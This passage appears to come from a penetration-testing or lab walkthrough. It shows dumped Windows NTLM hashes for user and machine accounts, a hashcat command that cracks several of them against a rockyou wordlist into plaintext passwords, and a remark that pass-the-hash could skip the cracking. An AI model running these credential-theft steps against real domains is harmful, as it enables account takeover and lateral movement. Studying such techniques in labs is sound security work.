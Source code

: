 ```cmd
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :  
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : bad1c9ba6b62479ab054c300c9adcbf5

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

- Cracking hashes w/ `hashcat`

```bash
$ cat > ntlm-hashes.txt                                                                                      
2777b7fec870e04dda00cd7260f7bee6         
5508500012cc005cf7082a9a89ebdfdf
64f12cddaa88057e06a81b54e73b949b
2b576acbe6bcfda7294d6bd18041b8fe
c39f2beb3d2ec06a62cb887fb391dee0
f4ab68f27303bcb4024650d8fc5f973a
c4b0e1b10c7ce2c4723b4e2407ef81a2
2777b7fec870e04dda00cd7260f7bee6
bad1c9ba6b62479ab054c300c9adcbf5
3c2d4759eb9884d7a935fe71a8e0f54c
7d33346eeb11a4f12a6c201faaa0d89a^C

$ hashcat -m 1000 ntlm-hashes.txt $ROCKYOU --show

64f12cddaa88057e06a81b54e73b949b:Password1
c39f2beb3d2ec06a62cb887fb391dee0:Password2
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#
c4b0e1b10c7ce2c4723b4e2407ef81a2:Password3
2777b7fec870e04dda00cd7260f7bee6:P@$$W0rd
```

> **Note**: Cracking these hashes are note necessary if we can perform a Pass-The-Hash attack. 
